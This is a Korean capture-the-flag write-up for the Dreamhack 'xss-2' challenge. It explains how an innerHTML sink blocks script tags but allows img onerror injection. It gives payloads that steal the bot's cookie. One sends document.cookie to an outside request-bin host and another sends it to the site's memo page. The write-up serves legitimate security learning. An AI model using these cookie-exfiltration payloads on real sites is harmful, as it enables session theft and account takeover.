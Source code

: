 문제
==
![1](https://user-images.githubusercontent.com/73854324/158143422-bb2f57fa-da04-4175-badb-b72320312bfe.png)
<br>
==
문제를 풀어보고 나니, 다른 방법이 생각나서 추가한다.   
밑으로 쭉쭉 내려서 처음에 푼 방법을 먼저 보면 이해가 더 잘 된다.   
<br><br>
![1](https://user-images.githubusercontent.com/73854324/158157258-6ca79698-05c7-4ddf-8682-8f3f38e8b651.png)<br>
코드를 보면, 우리는 먼저 flag 페이지에 POST 방식으로 요청을 보낸다.   
그 후 check_xss 함수가 실행된다. (뒤 코드를 보면 결과를 알겠지만, 쿠키 값이 없다면 wrong?? 이 뜰 것이다.)   
<br><br>
![2](https://user-images.githubusercontent.com/73854324/158157261-40fe18a6-5f29-481a-9b29-9d59aa61071c.png)<br>
check_xss 함수의 내용은 이러하다.(이미지 하단 부분)   
입력받은 파라미터와 쿠키값을 가지고, read_url 함수를 통해서 flag 값을 가진 봇이 링크에 접속한다.   
read_url 함수에서는 웹드라이버를 통해서 flag 값을 쿠키로 가진 채 해당 url에 접속하게 된다.   
<br><br>
그렇다면, 봇이 쿠키값을 가진 채 접속하게만 하고 요청 헤더의 쿠키값만 확인하면 된다.   
<br><br>
dreamhack 사이트 내에는, 여러 툴들이 존재한다.   
<br><br>
![0](https://user-images.githubusercontent.com/73854324/158157253-84b4ea82-9f9a-4c46-8ed8-262b75b1cc55.png)<br>
https://tools.dreamhack.games/main   
해당 링크 내 Request Bin 은, 임의로 웹서버를 만든 것처럼 가상으로 방문자들의 정보를 알 수 있다.   
이 웹서버로 봇이 쿠키값을 가지고 접속하게만 하면 된다.   
실전으로 옮겨보았다.   
<br><br>
![3](https://user-images.githubusercontent.com/73854324/158157265-09b9806a-d126-4797-87d3-c5da739aac5c.png)<br>
할당받은 url은 https://qwtdbvz.request.dreamhack.games 이다.   

```
https://qwtdbvz.request.dreamhack.games?document.cookie
```
<br>
이 곳으로 접속하면, 쿠키값을 가진채로 그냥 봇이 접속 할 것 같다.   
vuln 페이지에서 xss 공격을 하기 위해서는 img 태그를 사용했었다.   
![4](https://user-images.githubusercontent.com/73854324/158157266-0a9455a1-546c-495e-a932-baa8d02926c3.png)<br>

```
<img src="/" onerror="location.href='https://qwtdbvz.request.dreamhack.games?'+document.cookie">
```
<br>
바로 주입시켜보았다.   
<br><br>
![5](https://user-images.githubusercontent.com/73854324/158157269-8eec9af3-e3c1-4374-bd93-f78c7ac9aa57.png)<br>
요청 값으로 쿠키가 들어있다.   
<br><br><br><br><br><br>
처음에 푼 방법
==
![2](https://user-images.githubusercontent.com/73854324/158143428-737e818b-03ad-464e-aa1e-a697459697fa.png)<br>
메인페이지는 뭐.. xss-1 이랑 다를 바 없었다.   
(심지어 XSS-2 문제인데도, XSS-1 이라 적힌 것 까지)   
<br><br>
![3](https://user-images.githubusercontent.com/73854324/158143430-0e9b3f14-7553-4158-b43a-4411dbb9718b.png)<br>
xss-1 문제를 풀어보았으니, 바로 vuln 페이지로 들어갔는데,   
제대로 스크립트가 param 으로 전달되었음에도 팝업창이 뜨지 않았다.   
<br><br>
![4](https://user-images.githubusercontent.com/73854324/158143433-127f17f5-fcad-4944-89eb-3c1b90461149.png)<br>
note 페이지로 들어갔다.   
딱히 xss-1 문제랑은 다를 바 없어보인다.   
<br><br>
![5](https://user-images.githubusercontent.com/73854324/158143436-f3482d1a-6b92-43f5-bbc0-897f7b8fd830.png)<br>
flag 페이지 역시 마찬가지.   
<br><br>
![6](https://user-images.githubusercontent.com/73854324/158143440-12a9c843-0fc8-464a-acea-0eb97ef6fb7c.png)<br>
먼저 스크립트가 먹히지 않는 vuln 페이지의 소스를 살펴보았다.   
찾아보니, URLSearchParams 객체는, URL(GET방식) 로 파라미터를 받을 때 ? 뒤에 적히게 되는데   
? 를 제외한 파라미터 값들을 수정하거나 확인? 등 여러 용도로 사용할 수 있다고 한다.   
그리고 내 눈에 띄었던 점은, innerHTML 이었다.   
<br><br>
![7](https://user-images.githubusercontent.com/73854324/158143444-e45def26-b631-4764-a7db-db36e3565a10.png)<br>

```
https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML
https://www.w3.org/TR/2008/WD-html5-20080610/dom.html#innerhtml0
```

innerHTML 을 사용할 경우, <script> 구문이 먹혔기 때문에 HTML5 로 들어오면서 막혔다고 한다.   
innerHTML 과 비슷한 용도로 사용할 수 있는 innerText, textContent 가 있었다.   
<br>
대충 잠깐 정리해보자면,   
textContext 는 원시 텍스트(only 텍스트)만 결과물로 출력된다.   
innerText 는 html 태그들이 적용되지 않고 보이는 텍스트들만 결과물로 출력된다.   
innerHTML 는 html 태그들이 모두 포함되어 결과물로 출력된다.   

```
3가지 차이점에 대해 포스팅해놓으신 글
https://hianna.tistory.com/483
```

## 아무튼 XSS 스크립트를 실행시키기 위해서는 script 를 사용하지 않고 해야한다는 것을 알았다   
![8](https://user-images.githubusercontent.com/73854324/158143448-d5cb401e-7d48-4e52-9b85-aa3441f3e877.png)<br>
그렇다면, 전에 잠깐 알고있었던 img 태그의 onerror 속성을 이용해보기로 했다.   
보통 img src 에 파일명을 적는데, 없을만한 파일명을 적어주면 흔히 '엑박' 이 뜬다.   
이렇게 오류가 발생했을 경우, onerror 내부의 명령이 실행된다.   
<br><br>
![9](https://user-images.githubusercontent.com/73854324/158143449-1d3c4348-429a-43ac-ad05-eb4d5a832e39.png)<br>
onerror 를 이용해서 alert 창의 실행을 성공했다.   
그렇다면, onerror 내부에 xss 스크립트를 넣어준다면 쿠키를 탈취할 수 있을 것이다.   
<br><br>
![10](https://user-images.githubusercontent.com/73854324/158143450-da728bc0-1620-4bcf-8169-f4b0113832cb.png)<br>
```
주입 구문
<img src="/" onerror="location.href='/memo?memo='+document.cookie">
```


![11](https://user-images.githubusercontent.com/73854324/158143451-5c204d54-62b0-46d1-bdbe-0da2926dad37.png)<br>
성공적으로 되었다.   
이제 memo 페이지로 돌아가서 쿠키값을 확인해보자.   
(쿠키값에 flag 가 저장되어있고, 제대로 탈취되었는지 보러 가보자)   
<br><br>
![12](https://user-images.githubusercontent.com/73854324/158147825-c431f741-929f-4c49-8027-9f46f26f8dee.png)<br>
flag 값 획득 성공